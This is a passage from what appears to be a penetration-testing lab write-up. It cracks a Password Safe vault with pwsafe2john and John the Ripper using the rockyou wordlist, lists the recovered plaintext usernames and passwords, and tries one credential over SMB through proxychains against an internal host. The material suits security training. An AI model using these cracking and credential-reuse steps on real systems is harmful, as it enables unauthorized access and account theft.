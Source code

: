 ```
th@ddeu$ pwsafe2john ./Employee-Passwords_OLD.psafe3 > /tmp/employee_psafe.txt
th@ddeu$ john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/employee_psafe.txt
--SNIP--
michaeljackson   (Employee-Passwords_OLD)   
--SNIP--
th@ddeu$ sudo apt install passwordsafe
th@ddeu$ 
```
From here we have to download the app and open the gui to copy and paste out the passwords.  \
![Lockscreen](./20250716_passwordsafe_lockscreen.PNG)
![Unlocked](./20250716_passwordsafe_unlocked.PNG)  \
The resulting creds are as follows
```
#DMZ01
## jbetty / xiao-nicer-wheels5
#Domain Users
## bdavid / caramel-cigars-reply1
## stom / fails-nibble-disturb4
## hwilliam / warned-wobble-occur8
```
## 07. Gaining Access to JUMP01
Taking a look ath these creds, the only ones that are still valid are bdavid's unfortunately his credentials dont give us access to any files of interest
```
th@ddeu$ sudo proxychains smbclient -U "NEXURA\bdavid%caramel-cigars-reply1" -L //172.16.119.10
--SNIP--

        Sharename       Type      Comment
        ---------       ----      -------
```
